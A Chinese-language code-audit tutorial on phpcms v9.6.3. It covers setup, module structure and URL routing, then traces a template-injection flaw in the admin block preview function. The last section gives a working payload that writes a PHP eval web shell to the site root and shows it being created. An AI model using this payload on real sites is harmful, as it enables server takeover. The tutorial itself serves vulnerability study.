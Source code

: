 # 安装环境
windows10 + xmapp  
xmapp的Apache HTTP端口设为8080

# 安装phpcms
1. 在xmapp安装文件夹htdocs文件夹内新建一个文件夹，用来放php的程序代码，我的命名习惯是cms名称+版本号，例如在这里我的
命名是phpcms_v9.6.3
2. 到[phpcms官网](http://download.phpcms.cn/v9/9.6/phpcms_v9.6.3_UTF8.zip)下载代码，解压后将install_package文件夹内的文件
复制到第一步创建的文件夹内。
3. 访问`http://127.0.0.1:8080/phpcms_v9.6.3/install`安装cms

# cms基本结构
网上的一些分析文章基本上都是跳过功能点去直接分析漏洞，这对不熟悉这套cms的人或新手来说十分的不友好。在这里我简单的分析
一下这套cms的结构。
### 前台和后台
普通用户用的就是前台，url为index.php。管理员用的就是后台，url为admin.php.
一般来说前台的相同级别的漏洞危害远远比后台大。

### 模块
phpcms的功能可以在`模块 > 模块管理 > 模块管理 >`  里面查看。如下，  
![模块管理](https://raw.githubusercontent.com/greatyy/codeAudit/master/codeaudit101/imgs/modules.PNG) 

注意看“模块目录”这一列， 这里对应的是代码里面的`phpcms/modules`目录下的各个功能点， 当我们看代码找到可利用的
漏洞时， 可在这里找到对应的功能点去验证。

# url构造和核心函数
1. url构造方式： phpcms是通过m, c, a三个参数来控制访问的php函数的。当不传时，这三个参数的默认值为
```angular2
m: 默认值为content，
c:  默认值为index,
a:  默认值为init
``` 
表示当前url用 phpcms/modules/content/index.php 内的init方法处理。以此类推。  

2. 核心函数。核心函数基本都在phpcms/base.php文件里，使用频率很高，建议记住。
```
load_sys_class: 当调用load_sys_class时，到 phpcms/libs/classes目录下找xx.class.php

load_app_class: 当调用load_app_class时，到phpcms/modules/模块名/classes/目录下找xx.class.php

load_model: 当调用load_model时，到phpcms/model目录下找xx.class.php

如果$initialize=1时，包含类文件并实例化类，反之，仅包含类文件
```
那么就开始分析具体的漏洞吧。

# GET SHELL 1

phpcms/modules/block/block_admin.php  238行

```php
public function public_view() {
		$id = isset($_GET['id']) && intval($_GET['id']) ? intval($_GET['id']) :  exit('0');
		if (!$data = $this->db->get_one(array('id'=>$id))) {
			showmessage(L('nofound'));
		}
		if ($data['type'] == 1) {
			exit('<script type="text/javascript">parent.showblock('.$id.', \''.str_replace("\r\n", '', $_POST['data']).'\')</script>');
		} elseif ($data['type'] == 2) {
			extract($data);
			unset($data);
			$title = isset($_POST['title']) ? $_POST['title'] : '';
			$url = isset($_POST['url']) ? $_POST['url'] : '';
			$thumb = isset($_POST['thumb']) ? $_POST['thumb'] : '';
			$desc = isset($_POST['desc']) ? $_POST['desc'] : '';
			$template = isset($_POST['template']) && trim($_POST['template']) ? trim($_POST['template']) : '';
			$data = array();
			foreach ($title as $key=>$v) {
				if (empty($v) || !isset($url[$key]) ||empty($url[$key])) continue;
				$data[$key] = array('title'=>$v, 'url'=>$url[$key], 'thumb'=>$thumb[$key], 'desc'=>str_replace(array(chr(13), chr(43)), array('<br />', '&nbsp;'), $desc[$key]));
			}
			$tpl = pc_base::load_sys_class('template_cache');
			$str = $tpl->template_parse(new_stripslashes($template));
			$filepath = CACHE_PATH.'caches_template'.DIRECTORY_SEPARATOR.'block'.DIRECTORY_SEPARATOR.'tmp_'.$id.'.php';
			$dir = dirname($filepath);
			if(!is_dir($dir)) {
				@mkdir($dir, 0777, true);
		    }
		    if (@file_put_contents($filepath,$str)) {
		    	 ob_start();
		   		 include $filepath;
		   		 $html = ob_get_contents();
		   		 ob_clean();
		   		 @unlink($filepath);
		    }
```
注意那个"include":`include $filepath;`  
跟进"$filepath":
```
$str = $tpl->template_parse(new_stripslashes($template));
$filepath = CACHE_PATH.'caches_template'.DIRECTORY_SEPARATOR.'block'.DIRECTORY_SEPARATOR.'tmp_'.$id.'.php';
```
跟进"$template":  
```
$template = isset($_POST['template']) && trim($_POST['template']) ? trim($_POST['template']) : '';
```
可以看到，$template直接由post取来，没经过任何处理,那么只要构造一下传过恶意数据来即可。

由前面模块管理可知， block对应的功能是“碎片”， 那么到碎片管理用用功能，看下url可知此函数对应功能为
碎片管理的预览按钮。由上面的template_parse找到构造数据包的规则，构造数据如下：  
```
{php file_put_contents("phpcms_shell.php",'<?php eval($_POST[1]);?>');}
```
![预览](https://raw.githubusercontent.com/greatyy/codeAudit/master/codeaudit101/imgs/public_view.PNG)
点击“预览”按钮。可看到在根目录下生成了shell  
![webshell_1](https://raw.githubusercontent.com/greatyy/codeAudit/master/codeaudit101/imgs/webshell_1.PNG)



